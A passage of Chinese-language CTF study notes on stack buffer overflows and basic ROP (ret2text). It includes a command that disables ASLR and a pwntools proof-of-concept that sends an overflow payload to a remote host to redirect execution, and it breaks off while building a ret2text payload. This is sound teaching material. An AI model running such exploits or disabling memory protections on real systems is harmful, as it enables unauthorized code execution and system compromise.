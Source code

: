 ` echo 0 > /proc/sys/kernel/randomize_va_space`

关闭完全部保护

步骤：查看gets()写入的地址距离ebp的长度（计算填充长度）->+ebp的长度->+返回的地址（success()的地址)

![](https://my-md-1253484710.file.myqcloud.com/20190406211946.png)

![](https://my-md-1253484710.file.myqcloud.com/20190406212108.png)

poc1.py

```python
#coding=utf-8

from pwn import *

# sh = process("./stack1")
sh = remote("47.106.212.155",10000)
success_addr = 0x08048456

payload = 'a'*0x14 + 'bbbb' + p32(success_addr)
sh.sendline(payload)
sh.interactive()

```

![](https://my-md-1253484710.file.myqcloud.com/20190406212343.png)

----------------------------------

##### 基本ROP

ROP 攻击一般得满足如下条件

- 程序存在溢出，并且可以控制返回地址。
- 可以找到满足条件的 gadgets 以及相应 gadgets 的地址。

###### ret2text

ret2text 即控制程序执行程序本身已有的的代码 (.text)。

示例程序：[ret2text](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2text/bamboofox-ret2text/ret2text)

![](https://my-md-1253484710.file.myqcloud.com/20190406214601.png)

![](https://my-md-1253484710.file.myqcloud.com/20190412180957.png)

![](https://my-md-1253484710.file.myqcloud.com/20190406220340.png)

所以只需ret到`0x0804863a`就能getshell

构造payload

- 计算偏移量 
